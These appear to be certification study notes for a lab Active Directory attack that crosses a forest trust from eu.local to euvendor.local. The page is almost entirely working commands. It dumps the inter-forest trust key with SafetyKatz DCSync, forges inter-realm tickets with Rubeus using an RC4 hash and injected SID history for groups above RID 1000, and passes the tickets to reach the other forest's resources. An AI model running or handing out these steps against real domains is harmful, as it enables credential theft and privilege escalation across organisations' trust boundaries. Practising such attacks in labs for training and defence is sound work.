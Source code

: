 # Methodology
>1. Dump the trust key of the child domain.
>2. Check if SID Filtering is enabled.
>3. Forge an inter-forest ticket.
>4. Inject the ticket. 
>5. Enumerate group RID > 1000 on the target domain.
>6. Forge an inter-forest ticket with special SIDS.
>7. Inject the ticket


>**ℹ️ Info:**
>In this example we go from `eu.local` to `euvendor.local` .

---
# Powershell
>**ℹ️ Info:**
>
> Remember to follow the [PowerShell scripts methodology](Notes/Certifications/CRTE/00%20-%20Miscellaneous/01-%20Methodology.md#PowerShell%20Scripts).

## AD Module
**Check if SID Filtering is enabled:**
```powershell
Get-ADTrust -Filter *
```

**Look for groups with RID higher than 1000 in the target machine:**
```powershell
Get-ADGroup -Filter 'SID -ge "S-1-5-21-4066061358-3942393892-617142613-1000"' -Server euvendor.local
```

---
# Binaries
>**ℹ️ Info:**
>
> Remember to follow the [binaries methodology](Notes/Certifications/CRTE/00%20-%20Miscellaneous/01-%20Methodology.md#Binaries).

## SafetyKatz
**Dump trust key for the inter-forest trust:**
```cmd
SafetyKatz.exe '"lsadump::dcsync /user:eu\euvendor$"'
```

## Rubeus

**Forge an inter-realm TGT:**
```cmd
Rubeus.exe silver /user:Administrator /ldap /service:krbtgt/eu.local /rc4:b96659c7b2109d2e63e6de676d48646c /sid:S-1-5-21-3657428294-2017276338-1274645009 /nowrap 
```

**Inject the ticket:**
```cmd
Rubeus.exe asktgs /ticket:doIFEzCCBQ /service:CIFS/euvendor-dc.euvendor.local /dc:euvendordc.euvendor.local /ptt
```

>**ℹ️ Info:**
>We can only access specific resources that are explicitly shared!

**Forge a TGS using inter-realm TGT:**
```cmd
Rubeus.exe asktgs /service:http/euvendornet.euvendor.local /dc:euvendor-dc.euvendor.local /ptt /ticket:doIFOzCCBT...
```

**Inject SID history of group with RID > 1000:**
```cmd
Rubeus.exe silver /user:Administrator /ldap /service:krbtgt/eu.local /rc4:b96659c7b2109d2e63e6de676d48646c /sids:S-1-5-21-4066061358-3942393892-617142613-1103 /nowrap
```

**Request TGS with the TGT:**
```cmd
Rubeus.exe asktgs /service:http/euvendornet.euvendor.local /dc:euvendor-dc.euvendor.local /ptt /ticket:doIFOzCCBT...
```